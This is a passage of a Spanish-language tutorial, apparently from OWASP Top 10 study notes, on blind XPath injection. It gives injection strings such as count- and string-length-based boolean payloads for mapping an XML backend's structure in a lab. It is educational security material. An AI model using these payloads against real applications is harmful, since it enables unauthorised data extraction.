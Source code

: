 ## Inyecciones XPATH

El objetivo como atacante es poder representar toda la estructura XML que hay por detrás, para esto se inyectarán querys XPATH para descubrir la cantidad de etiquetas, su nombre y su contenido, y todo esto se irá representando en un nuevo archivo XML.

```bash
# Estructura de la inyección:
count() # Hacer un conteo
name() # Especificar etiquetas con "/*"
string-length() # Ver longitud de caracteres
substring(test,1,1) # Especificar caracteres
/*/*/* # El primer "/*" corresponde al elemento raíz, el 
# segundo al elemento hijo y el último al elemento interno
/*[n] # Especificar un elemento en específico, n 
# corresponde al número del elemento
```

### Cantidad de elementos raíz

Primeramente se debe identificar cuántas etiquetas o elementos raíz hay:

```bash
1' and count(/*)='1

# Se hará una comparación de la suma cuantitativa 
# de todos los elementos raíz con un número
```

Como se puede ver, al ingresar un valor válido, la información del producto se muestra en pantalla, esto será un indicativo para saber si la query que se está ingresando correcta o no.

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 11.png)

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 12.png)

Con esto, se sabe que solo hay una etiqueta raíz por lo que ahora toca representarlo en el nuevo archivo XML:

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 13.png)

### Longitud de una cadena

Ahora se quiere conocer la longitud del nombre de este elemento raíz.

```bash
# Tomar la longitud del primer elemento raíz y compararla
# con un valor
1' and string-length(name(/*[1]))>='7
```

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 14.png)

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 15.png)
